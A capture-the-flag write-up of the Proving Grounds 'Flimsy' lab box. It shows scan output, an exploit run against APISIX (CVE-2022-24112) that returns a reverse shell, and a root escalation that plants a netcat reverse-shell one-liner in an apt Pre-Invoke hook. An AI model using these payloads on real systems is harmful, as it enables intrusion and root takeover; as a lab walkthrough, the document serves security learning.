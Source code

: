```yaml
---
title: "Proving grounds Play: Flimsy"
layout: post
date: 2023-10-06 02:00
categories: writeup
---
```


Proving grounds Practice - Flimsy CTF writeup.

## Nmap

```text
PORT      STATE SERVICE             VERSION
22/tcp    open  ssh                 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62361a5cd3e37be170f8a3b31c4c2438 (RSA)
|   256 ee25fc236605c0c1ec47c6bb00c74f53 (ECDSA)
|_  256 835c51ac32e53a217cf6c2cd936858d8 (ED25519)
80/tcp    open  http                OpenResty web app server 1.21.4.1
|_http-title: Welcome to OpenResty!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: openresty/1.21.4.1
3306/tcp  open  mysql               MySQL (unauthorized)
9443/tcp  open  ssl/tungsten-https?
43500/tcp open  http                OpenResty web app server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 43500/tcp open  http - OpenResty web app server

```sh
HTTP/1.1 404 Not Found
Date: Fri, 06 Oct 2023 02:42:05 GMT
Content-Type: text/plain; charset=utf-8
Connection: keep-alive
Server: APISIX/2.8
```

**http-server-header: APISIX/2.8** the http header disclosed the service name and version which is vulnerable to [Apache APISIX 2.12.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50829).

**Exploitation**

```sh
naveenj@hackerspace:|22:26|~/proving_grounds/Flimsy/exploit$ python exploit.py http://192.168.211.220:43500/ 192.168.45.250 4444

                                   .     , 
        _.._ * __*\./ ___  _ \./._ | _ *-+-
       (_][_)|_) |/'\     (/,/'\[_)|(_)| | 
          |                     |          

		(CVE-2022-24112)
{ Coded By: Ven3xy  | Github: https://github.com/M4xSec/ }
```

Netcat Listening...

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Flimsy/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.250] from (UNKNOWN) [192.168.211.220] 54406
python -c 'import pty; pty.spawn("/bin/bash")'
franklin@flimsy:/root$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Download [linpeas.sh]() to the vulnerable machine and run it. The script shows the current user has writable permission to the folder `/etc/apt/apt.conf.d` which allows us to escalate privileges.

```sh
franklin@flimsy:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.250 4444 >/tmp/f"};' > shell
< -i 2>&1|nc 192.168.45.250 4444 >/tmp/f"};' > shell
franklin@flimsy:/etc/apt/apt.conf.d$ 
```

Wait for few seconds when the cron runs the file as root we will get reverse shell as root.

```sh
naveenj@hackerspace:|22:31|~/proving_grounds/Flimsy$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.250] from (UNKNOWN) [192.168.211.220] 54730
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# 
```

**Root Obtained**

## Reference

- [https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).